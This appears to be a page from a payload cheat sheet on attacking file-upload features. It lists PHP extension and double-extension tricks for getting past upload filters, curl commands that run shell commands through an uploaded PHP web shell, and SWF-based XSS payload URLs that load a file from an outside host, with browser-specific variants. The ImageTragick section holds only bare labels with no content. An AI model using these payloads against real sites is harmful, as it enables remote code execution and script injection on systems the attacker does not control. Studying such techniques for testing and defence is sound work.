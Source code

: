 # Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Exploits

### Image Tragik

```powershell
HTTP Request
Reverse Shell
Touch command
```

### PHP Extension

```powershell
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```

### PNG Bypass a resize

Upload the picture and use a local file inclusion

```powershell
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

### JPG Bypass a resize

Upload the picture and use a local file inclusion

```powershell
http://localhost/test.php?c=ls
```

### XSS via SWF

As you may already know, it is possible to make a website vulnerable to XSS if you can upload/include a SWF file into that website. I am going to represent this SWF file that you can use in your PoCs.
This method is based on [1] and [2], and it has been tested in Google Chrome, Mozilla Firefox, IE9/8; there should not be any problem with other browsers either.

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);

IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}

IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```

## Thanks to

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
